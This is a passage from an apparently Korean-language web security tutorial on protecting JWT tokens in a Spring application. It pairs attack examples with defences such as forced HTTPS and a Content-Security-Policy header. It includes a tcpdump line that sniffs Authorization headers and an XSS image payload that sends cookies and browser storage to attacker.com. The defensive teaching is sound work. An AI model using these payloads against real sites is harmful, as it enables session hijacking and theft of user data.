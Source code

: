 **공격 방법:**
```bash
# 공격자가 공개 WiFi에서 패킷 캡처
tcpdump -i wlan0 -A | grep "Authorization"
# HTTP 요청에서 JWT 토큰 탈취
```

**방어 전략:**
```yaml
# application.yml - HTTPS 강제 설정
server:
  port: 443
  ssl:
    enabled: true
    key-store: classpath:keystore.p12
    key-store-password: ${SSL_KEYSTORE_PASSWORD}
    key-store-type: PKCS12
    
# HTTP → HTTPS 리다이렉트
---
server:
  port: 80
spring:
  security:
    require-ssl: true
```

### 시나리오 3: 악성 스크립트 삽입 공격

**공격 코드:**
```html
<!-- 게시판 등에 악성 댓글 작성 -->
<img src="x" onerror="
  var xhr = new XMLHttpRequest();
  xhr.open('POST', 'http://attacker.com/steal');
  xhr.setRequestHeader('Content-Type', 'application/json');
  xhr.send(JSON.stringify({
    cookies: document.cookie,
    localStorage: JSON.stringify(localStorage),
    sessionStorage: JSON.stringify(sessionStorage)
  }));
">
```

**방어 전략:**
```java
// CSP 헤더로 인라인 스크립트 차단
@RestController
public class AuthController {
    
    @GetMapping("/")
    public String index(HttpServletResponse response) {
        response.setHeader("Content-Security-Policy", 
            "default-src 'self'; " +
            "script-src 'self'; " +              // 인라인 스크립트 완전 차단
            "img-src 'self' data:; " +
            "connect-src 'self' https://api.ourapp.com"
        );
        return "index";
    }
}
```

---